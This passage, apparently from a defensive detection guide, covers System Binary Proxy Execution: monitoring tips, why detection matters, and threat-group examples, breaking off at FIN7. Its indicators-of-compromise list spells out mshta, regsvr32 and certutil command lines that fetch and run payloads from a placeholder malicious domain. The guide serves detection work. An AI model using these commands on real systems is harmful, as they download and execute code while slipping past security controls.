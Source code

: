   - Monitor network communications initiated by system binaries, especially those connecting to unknown or suspicious IP addresses and domains.
  - Detect unusual outbound HTTP/HTTPS connections initiated by binaries like `certutil.exe` or `mshta.exe`.

- **Indicators of Compromise (IoCs)**:
  - Suspicious command-line arguments, such as:
    - `mshta.exe http://malicious-domain.com/payload.hta`
    - `regsvr32.exe /s /n /u /i:http://malicious-domain.com/script.sct scrobj.dll`
    - `certutil.exe -urlcache -split -f http://malicious-domain.com/payload.exe payload.exe`
  - Unusual file downloads or decodings via system utilities.
  - Execution of binaries from temporary folders or unusual directories.

## Why it is Important to Detect This Technique

Early detection of System Binary Proxy Execution is critical due to several factors:

- **Stealth and Evasion**:

  - Attackers exploit trusted binaries to bypass security controls, making detection challenging and increasing the risk of prolonged compromise.
  - Failure to detect this technique allows attackers to maintain persistence, escalate privileges, and move laterally undetected.

- **Potential Damage and Impact**:

  - Undetected execution can lead to data exfiltration, ransomware deployment, espionage, or sabotage.
  - Attackers gain the ability to execute arbitrary commands and payloads, significantly increasing risks to organizational security and operational continuity.

- **Compliance and Regulatory Requirements**:

  - Organizations must detect and respond promptly to such threats to maintain compliance with industry standards and regulatory frameworks (e.g., GDPR, HIPAA, PCI DSS).
  - Failure to detect and remediate promptly can result in significant financial and reputational damages.

- **Incident Response and Containment**:
  - Early detection enables quicker incident response and containment, significantly reducing potential damage and recovery costs.
  - Understanding and detecting this technique enhances the organization's overall security posture and resilience against future threats.

## Examples

Real-world examples of System Binary Proxy Execution include:

- **APT32 (OceanLotus)**:

  - **Scenario**: Utilized `regsvr32.exe` to execute malicious scripts hosted remotely.
  - **Tools Used**: Remote SCT scripts, `regsvr32.exe`.
  - **Impact**: Espionage, data exfiltration, persistent access within targeted organizations.

- **FIN7**:
